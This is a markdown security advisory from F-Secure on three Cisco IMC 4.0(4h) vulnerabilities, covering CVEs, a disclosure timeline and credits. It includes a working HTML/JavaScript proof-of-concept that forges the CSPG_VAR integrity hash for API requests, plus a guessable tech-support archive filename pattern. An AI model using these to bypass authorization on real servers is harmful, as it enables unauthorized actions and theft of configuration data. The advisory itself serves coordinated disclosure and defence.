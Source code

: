 ```yaml
---
layout: post
title: 'Cisco IMC Server: Multiple Vulnerabilities'
excerpt: "Several vulnerabilities were discovered by F-Secure Consulting in the Cisco Integrated Management Controller (IMC) web application. The vulnerabilities combined can be leveraged to enumerate users and bypass authorisation controls.<br/><br/>"
categories:
  - "cve-advisory"
tags:
  - appsec
  - pentesting
  - cisco
  - "imc server"
last_modified_at: 2021-12-24T14:44:00
---
```


{% include note.html content="This advisory was originally published on [F-Secure LABS](https://labs.f-secure.com/advisories/cisco-imc-server-multiple-vulnerabilities/)" %}

| **Product** | Cisco IMC Server 4.0(4h) |
| **Severity** |<span style="color:orange">Medium</span> |
| **CVE IDs** |CVE-2020-26062, CVE-2020-26063 |
| **Type**	| Authorization Bypass, Username Enumeration |

<br/><br/>

{% include toc.html %}

## Introduction

Several vulnerabilities were discovered by F-Secure Consulting in the Cisco Integrated Management Controller (IMC) web application (CVE-2020-26062, CVE-2020-26063 and CSCvv07284). An example datasheet of the product can be found [here](https://www.cisco.com/c/en/us/products/collateral/servers-unified-computing/ucs-b-series-blade-servers/data_sheet_c78-728802.html).

The vulnerabilities combined can be leveraged to enumerate users and bypass authorisation controls. 


## Vulnerabilities Discovered

Three security issues were identified affecting the IMC application version 4.0(4h) and potentially other versions. The complete range of products affected can be found on the relevant Cisco Pages:

* Cisco Integrated Management Controller Software Username Enumeration Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-enum-CyheP3B7)

* Cisco Integrated Management Controller API Request Hash Modification<br/>[http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284](http://bst.cloudapps.cisco.com/bugsearch/bug/CSCvv07284)

* Cisco Integrated Management Controller Software Authorization Bypass Vulnerability<br/>[https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-cimc-auth-zWkppJxL)


**Username Enumeration**
> CVE-2020-26062 - CVSSv3.1 Score: 5.3

The Username Enumeration vulnerability was discovered within the log in page of the IMC web interface. In its default configuration, there is no account lockout threshold enforced; offering the opportunity for an adversary to brute-force enumerated accounts.


**Integrity Hash Forgery**
> CCSCvv07284 - CVSSv3.1 Score: 3.1

Once authenticated to the application communications with the server consist of HTTP POST requests sent to a set of XML-based APIs. These API calls use an integrity protection scheme. User supplied parameter values are hashed and the resulting value is placed in the `CPSG_VAR HTTP` header. The hashing functionality is implemented in client-side JavaScript. 

The JavaScript hashing code was re-implemented in the form of an an HTML page. The source code is presented below:

```html
<html>
 <body>
   <head>
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/crypto-js.min.js"></script>   
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/hmac-sha256.min.js"></script>       
       <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/enc-base64.min.js"></script>  
   </head>

   <script>
     function invoke(){
       var sessionCookie = document.getElementById('sessionCookie').value
       var sessionID = document.getElementById('sessionID').value
       var queryStringURL = document.getElementById('queryString').value 
       var queryString = decodeURIComponent(decodeURIComponent(queryStringURL))
       var hash = hashFnv32(sessionID,queryString)      
       document.getElementById('output').innerHTML = hash
       document.getElementById('http').innerHTML = `
       POST /data HTTP/1.1<br>
       Host: <IPaddress><br>
       Referer: https://<IPaddress>/index.html<br>
       CSPG_VAR: ` + hash + `<br>
       Content-Type: application/x-www-form-urlencoded<br>
       Cookie: username=; sessionCookie=` + sessionCookie +`<br>
       Content-Length: 105<br><br>
       sessionID=`+sessionID+`&queryString=`+queryStringURL+`<br>`
    }

     function hashFnv32(a, b) {
           console.log("hashFnv32("+a+","+b+") called") 
           var d, e = 40389;
           var g = Math.floor(a.length / 4);
           for (d = 0; d < g; d++) e ^= a.charCodeAt(d), e += e << 1;
           a = e.toString();
           var ret = CryptoJS.HmacSHA512(b,a).toString()
           console.log("hashFnv32 returns "+ ret)
           return ret
      }
   </script>


   <form action="#">
     <p>sessionCookie</p>
     <input type="text" id="sessionCookie" />
     <p>sessionID</p>
     <input type="text" id="sessionID" />
     <p>queryString (double urlencoded)</p>
     <input type="text" id="queryString" />
     <input  type="button" value="Hash!" />
   </form>
   <div id="output"></div>
   <br><br>
   <div id="http"></div>
 </body>
</html>
```

The screenshot below illustrates its use to generate valid requests that will pass integrity checks.

![](/assets/img/cisco-imc-hash-forgery.png)


**Authorization Bypass**
> CVE-2020-26063 - CVSSv3.1 Score: 5.4

Authorisation checks were improperly configured and/or found to be missing on 2 of the IMC API endpoints. It is possible to forge a request using the Integrity Hash Forgery (CCSCvv07284) issue that results in the execution of functionality that is not normally available to some users, such as those with "read-only" roles, for example the "ping" and "set SSH server banner" functions.

The application also supports the generation of "Tech Support" archives by administrator users. The archives contain configuration files, detailed runtime logs and full directories from the server’s filesystem. If the filename can be 'guessed' it can be downloaded directly e.g. `/data/saveTechSupportWithHostname(<imc-hostname>-20200714-161002.tar.gz)`. The file is generated in a predictable format: `[IMC hostname]-[YYYYMMDD]-[HHMMSS].tar.gz`. Once the file is requested it is immediately deleted from the server, limiting the attacker’s window of opportunity. 


## Credit

The issues were discovered by Leonidas Tsaousis ([@laripping](https://twitter.com/laripping)) and Thomas Large of F-Secure Consulting.



## Timeline

| Date |	Summary |
| ---- |  ------- |
| 20/07/2020 | Issues disclosed to Cisco PSIRT | 
| 20/07/2020 | Cisco PSIRT acknowledged receipt of the report | 
| 05/08/2020 | Cisco triaged and reproduced the issues |
| 28/09/2020 | Confirmation of remediation plan, agreement of join disclosure date |
| 04/11/2020 | Joint disclosure by Cisco and F-Secure, Advisory released |
